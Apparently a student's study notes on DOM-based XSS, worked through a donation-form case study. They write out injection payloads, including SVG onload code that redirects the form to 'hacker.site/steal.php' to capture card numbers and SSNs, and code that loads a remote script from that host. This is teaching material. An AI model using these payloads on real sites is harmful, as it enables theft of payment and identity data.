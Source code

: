 2024-12-20 19:55

Status:

Tags:

# DOM-based XSS Attack

## 1. **What is DOM-based XSS?**

- DOM-based XSS occurs **exclusively on the client side**.
- The payload is **not processed by the server**.
- The attack exploits the victim's **browser** by manipulating the **Document Object Model (DOM)**.

---

## 2. **Case Study: The Donation Form**

### Key Observations:

- The **donation form** allows users to input:
    - Name
    - Email address
    - Credit card number
    - Social security number (SSN)
    - Donation amount
- The **amount parameter**:
    - Is **not passed to the server**.
    - Is retrieved **via the document hash** (`#`) and rendered on the page.

### Behavior of the Page:

1. **Input Field Creation**:
    
    - The input tag for the donation amount **does not exist** in the source code.
    - **JavaScript dynamically** creates the input box by:
        - Extracting the value from the `document` property.
        - Using the `innerHTML` property to display it.
2. **DOM Manipulation**:
    
    - Modifying the **amount parameter** in the address bar and refreshing the page updates the donation value.
    - The rendered HTML contains the injected input tag, while the actual page source does not.

---

## 3. **Payload Injection**

### Steps to Inject a Malicious Payload:

1. **Initial Test**:
    
    - Insert any string into the `amount` parameter to confirm that it gets rendered.
2. **IMG Tag Injection**:
    
    - **Payload Construction**:
        - Close the value attribute (`"`) of the input tag.
        - Close the input tag.
        - Add an `<img>` tag with an invalid `src` attribute.
        - Trigger the `onError` event with malicious JavaScript:
            
            html
            
            Copy code
            
            `"><img src=x onerror=alert('XSS')>`
            
    - This payload triggers an `alert()` function.
3. **Optimized Payload**:
    
    - **Remove double quotes** around attributes:
        
        html
        
        Copy code
        
        `"><img src=x onerror=alert('XSS')>`
        
    - The browser **auto-corrects the syntax**, and the payload still works.
4. **Using SVG for Compact Payload**:
    
    - SVG elements can be manipulated to create payloads dynamically.

---

## 4. **Complex Payloads**: Overwriting Form Actions

### Objective:

- Modify the **action attribute** of the donation form to send data to an attacker-controlled site.

### Steps:

1. **Identify the Form**:
    
    - Use the browser console to inspect the `document.forms` object.
    - The donation form is the second form (`index 1`).
2. **Modify the Action**:
    
    - In the browser console, change the form action:
        
        javascript
        
        Copy code
        
        `document.forms[1].action = "http://hacker.site/steal.php";`
        
3. **Construct the Payload**:
    
    - Insert the JavaScript in the `onload` attribute of an SVG element:
        
        html
        
        Copy code
        
        `<svg onload="document.forms[1].action='http://hacker.site/steal.php'">`
        
4. **Data Theft**:
    
    - Submit the form, and data (credit card, SSN) is sent to `steal.php` hosted on the attacker's server.

---

## 5. **Advanced Techniques: Hosting External Scripts**

### Steps:

1. **Create an External Script**:
    
    - Host a JavaScript file (e.g., `s.js`) on `hacker.site`:
        
        javascript
        
        Copy code
        
        `alert('External XSS');`
        
2. **Inject the Script**:
    
    - Use the console to create and append a script tag:
        
        javascript
        
        Copy code
        
        `var script = document.createElement('script'); script.src = "http://hacker.site/s.js"; document.body.appendChild(script);`
        
3. **Insert the Payload**:
    
    - Add the commands to the `onload` attribute of an SVG element:
        
        html
        
        Copy code
        
        `<svg onload="var script=document.createElement('script');script.src='http://hacker.site/s.js';document.body.appendChild(script)">`
        

---

## 6. **Bypassing Anti-XSS Filters**

- **Reflected XSS** can be blocked by anti-XSS filters, like Chromium's XSS Auditor.
- **DOM-based XSS** cannot be stopped by these filters because:
    - The payload is not sent to the server.
    - It runs entirely on the client side.

**Example**:

- A reflected XSS payload does not execute in Chromium.
- A DOM-based XSS payload on the donation page **executes successfully**.

---

## 7. **Summary and Key Takeaways**

- **DOM-based XSS**:
    - Manipulates the DOM on the client side.
    - Payloads are **not sent to the server**.
    - Common methods include using `innerHTML`, dynamically created tags, and browser console commands.
- **Complex Payloads**:
    - Change form actions, inject external scripts, and perform multiple actions.
- **Defense Challenges**:
    - Cannot be blocked by server-side anti-XSS filters.
    - Requires strong client-side validation and secure coding practices.




### References
